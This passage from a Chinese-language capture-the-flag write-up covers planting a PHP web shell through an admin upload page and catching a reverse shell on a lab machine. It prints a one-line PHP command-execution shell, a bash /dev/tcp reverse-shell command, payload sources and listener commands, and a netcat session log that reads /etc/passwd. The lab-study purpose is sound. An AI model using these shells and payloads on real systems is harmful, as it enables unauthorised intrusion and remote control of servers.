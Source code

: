 成功進入管理頁面後可上傳php web shell

![](/assets/obsidian/cb66b8855226b4da397341545cc487ff.png)

**Webshell Methods:**
1. 一句話木馬: `<?php system($_GET['cmd']); ?>` 傳 `bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"`
2. Weevely Webshell
3. `seclists`抓web shells
4. Google PHPweb shell
5. https://www.revshells.com/
6. https://github.com/swisskyrepo/PayloadsAllTheThings
7. locate webshells at local
```bash
┌──(root㉿kali)-[/usr/share/seclists/Web-Shells/PHP]
└─# locate webshell
...
/usr/share/webshells/php/php-reverse-shell.php
```

**Listener Methods:**
1. netcat + read line wrapper get reverse shell
2. Metasploit use multi handler -> `sessions -u`
3. Rich Reverse Shell: `pip3 install pwncat-cs` -> `python3 -m pwncat -l 1111 -m linux` -> CTRL + D (Detach)
4. https://www.revshells.com/

**Method 1.**

```bash
┌──(root㉿kali)-[~]
└─# rlwrap nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.14.45] from (UNKNOWN) [10.10.11.194] 57372
Linux soccer 5.4.0-135-generic #152-Ubuntu SMP Wed Nov 23 20:19:22 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
 11:03:24 up  1:51,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ cat /etc/passwd|grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
player:x:1001:1001::/home/player:/bin/bash
```
